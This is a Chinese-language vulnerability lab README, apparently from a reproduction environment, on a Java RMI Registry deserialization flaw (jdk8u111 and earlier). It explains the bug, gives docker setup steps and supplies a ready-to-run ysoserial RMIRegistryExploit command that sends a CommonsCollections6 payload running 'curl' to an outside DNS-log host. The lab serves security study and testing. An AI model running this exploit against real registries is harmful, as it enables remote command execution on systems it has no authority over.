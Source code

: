# Java RMI Registry 反序列化漏洞(<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能（虽然大多数情况不允许远程bind），在bind过程中，伪造Registry接收到的序列化数据（实现了Remote接口或动态代理了实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链（环境用的是commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20220224142802160](images/202202241428503.png)

Registry会返回报错，但命令会正常执行。可以看到dnslog成功接收请求。

![image-20220224142736669](images/202202241427738.png)